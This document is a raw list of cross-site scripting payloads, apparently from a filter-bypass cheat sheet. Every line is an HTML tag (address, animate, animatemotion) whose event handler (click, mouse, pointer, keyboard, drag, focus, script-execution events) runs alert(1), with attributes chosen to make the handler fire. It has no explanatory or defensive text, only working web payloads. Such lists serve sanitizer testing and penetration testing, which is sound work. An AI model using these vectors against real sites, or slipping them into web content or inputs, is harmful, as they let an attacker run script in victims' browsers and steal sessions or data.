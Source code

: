 <address onblur=alert(1) id=x tabindex=1 style=display:block>test</address><input value=clickme>
<address onclick="alert(1)" style=display:block>test</address>
<address oncontextmenu="alert(1)" style=display:block>test</address>
<address oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<address oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<address ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</address>
<address onfocusout=alert(1) id=x tabindex=1 style=display:block>test</address><input value=clickme>
<address onkeydown="alert(1)" contenteditable style=display:block>test</address>
<address onkeypress="alert(1)" contenteditable style=display:block>test</address>
<address onkeyup="alert(1)" contenteditable style=display:block>test</address>
<address onmousedown="alert(1)" style=display:block>test</address>
<address onmouseenter="alert(1)" style=display:block>test</address>
<address onmouseleave="alert(1)" style=display:block>test</address>
<address onmousemove="alert(1)" style=display:block>test</address>
<address onmouseout="alert(1)" style=display:block>test</address>
<address onmouseover="alert(1)" style=display:block>test</address>
<address onmouseup="alert(1)" style=display:block>test</address>
<address onmousewheel=alert(1) style=display:block>requires scrolling
<address onpaste="alert(1)" contenteditable>test</address>
<address onpointerdown=alert(1) style=display:block>XSS</address>
<address onpointerenter=alert(1) style=display:block>XSS</address>
<address onpointerleave=alert(1) style=display:block>XSS</address>
<address onpointermove=alert(1) style=display:block>XSS</address>
<address onpointerout=alert(1) style=display:block>XSS</address>
<address onpointerover=alert(1) style=display:block>XSS</address>
<address onpointerrawupdate=alert(1) style=display:block>XSS</address>
<address onpointerup=alert(1) style=display:block>XSS</address>
<animate draggable="true" ondrag="alert(1)" style=display:block>test</animate>
<animate draggable="true" ondragend="alert(1)" style=display:block>test</animate>
<animate draggable="true" ondragenter="alert(1)" style=display:block>test</animate>
<animate draggable="true" ondragleave="alert(1)" style=display:block>test</animate>
<animate draggable="true" ondragstart="alert(1)" style=display:block>test</animate>
<animate id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></animate>
<animate onafterscriptexecute=alert(1)><script>1</script>
<animate onbeforescriptexecute=alert(1)><script>1</script>
<animate onblur=alert(1) id=x tabindex=1 style=display:block>test</animate><input value=clickme>
<animate onclick="alert(1)" style=display:block>test</animate>
<animate oncontextmenu="alert(1)" style=display:block>test</animate>
<animate oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<animate oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<animate ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</animate>
<animate onfocusout=alert(1) id=x tabindex=1 style=display:block>test</animate><input value=clickme>
<animate onkeydown="alert(1)" contenteditable style=display:block>test</animate>
<animate onkeypress="alert(1)" contenteditable style=display:block>test</animate>
<animate onkeyup="alert(1)" contenteditable style=display:block>test</animate>
<animate onmousedown="alert(1)" style=display:block>test</animate>
<animate onmouseenter="alert(1)" style=display:block>test</animate>
<animate onmouseleave="alert(1)" style=display:block>test</animate>
<animate onmousemove="alert(1)" style=display:block>test</animate>
<animate onmouseout="alert(1)" style=display:block>test</animate>
<animate onmouseover="alert(1)" style=display:block>test</animate>
<animate onmouseup="alert(1)" style=display:block>test</animate>
<animate onmousewheel=alert(1) style=display:block>requires scrolling
<animate onpointerdown=alert(1) style=display:block>XSS</animate>
<animate onpointerenter=alert(1) style=display:block>XSS</animate>
<animate onpointerleave=alert(1) style=display:block>XSS</animate>
<animate onpointermove=alert(1) style=display:block>XSS</animate>
<animate onpointerout=alert(1) style=display:block>XSS</animate>
<animate onpointerover=alert(1) style=display:block>XSS</animate>
<animate onpointerrawupdate=alert(1) style=display:block>XSS</animate>
<animate onpointerup=alert(1) style=display:block>XSS</animate>
<animatemotion draggable="true" ondrag="alert(1)" style=display:block>test</animatemotion>